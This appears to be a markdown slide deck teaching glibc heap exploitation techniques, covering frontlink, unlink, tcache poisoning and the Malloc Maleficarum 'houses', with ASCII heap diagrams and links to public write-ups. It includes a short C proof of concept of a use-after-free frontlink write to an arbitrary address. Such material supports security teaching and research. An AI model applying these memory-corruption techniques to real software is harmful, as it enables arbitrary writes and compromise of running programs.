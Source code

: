 # Attacks
Write It


## Structural Attacks

Using the allocator's internal data structures for overwriting arbtirary memory


### [Frontlink][Vudo Malloc Tricks]

* Insert node to a linked list
    ```C
    void frontlink(mchunkptr prev, mchunkptr p) {
        p->fd = prev->fd;
        prev->fd = p;
    }
    ```
* Control `prev`'s fd => write-pointer-to-what-where
* Controlling prev requires:
    - Ability to [overwrite the list's head](http://blog.frizn.fr/glibc/glibc-heap-to-rip)
    - Insertion to large bin
* Never mitigated!!!!!!!
* Articles:
    - PoC||GTFO 0x18 House of Fun
    - [Vudo Malloc Tricks]

[Vudo Malloc Tricks]: http://phrack.org/issues/57/8.html
Note: Inserting to a list happens in `free` and `p` points to data the designer may control


### Frontlink - Example
```C
void **p0 = malloc(0x400);
malloc(0x20);
void **p1 = malloc(0x420);
malloc(0x20);
free(p0);
free(malloc(0x1000));
p0[1] = 0xdeadbeef;
free(p1);
free(malloc(0x1000));
```

```C 
            large_bin(400-430)
                 |
         +---------------------------------------------+
Arena    |      ||fd|bk||                              |
         +-------^---|---------------------------------+
                 |   |
                 +---+               
                                            
         +------------------------------------------------------+
Heap     |wildreness                                            |
         +------------------------------------------------------+
         |
        top
                                          

```
<!-- .element: class="fragment fade-in" -->

```C 
            large_bin(400-430)
                 |
         +---------------------------------------------+
Arena    |      ||fd|bk||                              |
         +-------^---|---------------------------------+
                 |   |
                 +---+               

         +------------------------------------------------------+
Heap     |401|...      |wildreness                              |
         +------------------------------------------------------+
             |         |
             p0       top
                                          

```
<!-- .element: class="fragment fade-over" data-code-focus="1" -->

```C 
            large_bin(400-430)
                 |
         +---------------------------------------------+
Arena    |      ||fd|bk||                              |
         +-------^---|---------------------------------+
                 |   |
                 +---+               

         +------------------------------------------------------+
Heap     |401|...      |21|...|wildreness                       |
         +------------------------------------------------------+
             |                |
             p0              top
                                          

```
<!-- .element: class="fragment fade-over" data-code-focus="2" -->

```C 
            large_bin(400-430)
                 |
         +---------------------------------------------+
Arena    |      ||fd|bk||                              |
         +-------^---|---------------------------------+
                 |   |
                 +---+               

         +------------------------------------------------------+
Heap     |401|...      |21|...|421|...      |wildreness         |
         +------------------------------------------------------+
             |                    |         |
             p0                  p1        top

```
<!-- .element: class="fragment fade-over" data-code-focus="3" -->

```C 
            large_bin(400-430)
                 |
         +---------------------------------------------+
Arena    |      ||fd|bk||                              |
         +-------^---|---------------------------------+
                 |   |
                 +---+               

         +------------------------------------------------------+
Heap     |401|...      |21|...|421|...      |21|...|wildreness  |
         +------------------------------------------------------+
             |                    |                |
             p0                  p1               top

```
<!-- .element: class="fragment fade-over" data-code-focus="4" -->

```C 
            large_bin(400-430)
                 |
         +---------------------------------------------+
Arena    |      ||fd|bk||                              |
         +-------^----|--------------------------------+
                 |    |  
             +---+----+                 
             |   |                      
         +---v---|----------------------------------------------+
Heap     |400|fd|bk|...|21|...|421|...      |21|...|wildreness  |
         +------------------------------------------------------+
             |                    |                |
             p0                  p1               top
```
<!-- .element: class="fragment fade-over" data-code-focus="5-6" -->

```C 
            large_bin(400-430)
                 |
         +---------------------------------------------+
Arena    |      ||fd|bk||                              |
         +------------|--------------------------------+
                      |  
               +------+                 
               |                        
         +-----v------------------------------------------------+
Heap     |400|fd|bk|...|21|...|421|...      |21|...|wildreness  |
         +-------|----------------------------------------------+
             |   |                |                |
             p0  |               p1               top
                 |
             +---v---+                  
0xdeadbeef:  |xxxxxxx|
             +-------+
```
<!-- .element: class="fragment fade-over" data-code-focus="7" -->

```C 
            large_bin(400-430)
                 |
         +---------------------------------------------+
Arena    |      ||fd|bk||                              |
         +------------|--------------------------------+
                      |  
               +------+                 
               |                        
         +-----v------------------------------------------------+
Heap     |400|fd|bk|...|21|...|421|...      |21|...|wildreness  |
         +-------|------------^---------------------------------+
             |   |            |   |                |
             p0  | +----------+  p1               top
                 | |
             +---v-|-+                  
0xdeadbeef:  |xxxxxxx|
             +-------+
```
<!-- .element: class="fragment fade-over" data-code-focus="8-9" -->

Note:
Alloc UAF chunk 
Alloc separator 
Alloc pointed chunk 
Alloc separator 
Insert UAF chunk to large bin 
Use UAF to point to arbitrary memory 
Insert to large bin - do the frontlink attack 


### [Unlink][Vudo Malloc Tricks]
* Remove node from linked list:
    ```C
    void unlink(mchunkptr p) {
        p->bk->fd = p->fd;
    }
    ```
* Control chunk's `bk` and `fd` => write-what-where
* Mitgated (2004): 
```C
if (p->bk->fd != p) malloc_printerr(check_action, ...)
```
* Still useful:
    - [Unsorted Bin Attack]: un-mitigated unlink
    - [House of Cards]: overwrite global `check_action` which changes `malloc_printer` to no-op
    - [Unlink pointer] to attacker controlled data

[Vudo Malloc Tricks]: http://phrack.org/issues/57/8.html
[Unsorted Bin Attack]: https://github.com/shellphish/how2heap/blob/master/unsorted_bin_attack.c
[House of Cards]: http://tukan.farm/2016/09/04/fastbin-fever/
[Unlink pointer]: https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit.html 

Note:
`malloc_printerr` changed in glibc 2.27 and always termintes the process


## Functionality Attacks

Overriding allocator's metadata to induce allocation to user in arbitrary memory


### [Tcache Poison Attack]
* `tcache` is singly linked cache of chunks
    ```C
    static void *tcache_get (size_t tc_idx)
    {
      tcache_entry *e = tcache->entries[tc_idx];
      tcache->entries[tc_idx] = e->next;
      return (void *) e;
    }
    ```
* Attacker controls `e->next` (`fd`)
* Malloc returns attacker controlled location 

[Tcache Poison Attack]: http://tukan.farm/2017/07/08/tcache/


### Tcache Poison Atttack - Example
TODO


### [Malloc Maleficarum] et al
* [House of Lore]
* [House of Force]
* [House of Spirit]
* [Fast Bin Attack] 

[Malloc Maleficarum]: https://dl.packetstormsecurity.net/papers/attack/MallocMaleficarum.txt
[House of Lore]: https://github.com/shellphish/how2heap/blob/master/house_of_lore.c
[House of Force]: https://github.com/shellphish/how2heap/blob/master/house_of_force.c
[House of Spirit]: https://github.com/shellphish/how2heap/blob/master/house_of_spirit.c
[Fast Bin Attack]: http://uaf.io/exploitation/2017/03/19/0ctf-Quals-2017-BabyHeap2017.html 


## Restricted Functionality Attacks
Restricted overriding metadata to compromise the integrity of other data on the heap

* [Poisoned NULL Byte](https://googleprojectzero.blogspot.lu/2014/08/the-poisoned-nul-byte-2014-edition.html)
* [Fragment-and-Write](https://www.alchemistowl.org/pocorgtfo/pocorgtfo16.pdf "Adventure of the Fragmented Chunks")

Note:
bunch of ways to create overlapping chunks or forgotten chunks
turn liner write to relative write


## Other Cool Tricks
* [`munmap` any page](http://tukan.farm/2016/07/27/munmap-madness/)
* [Allocation of bins](http://blog.frizn.fr/glibc/glibc-heap-to-rip)
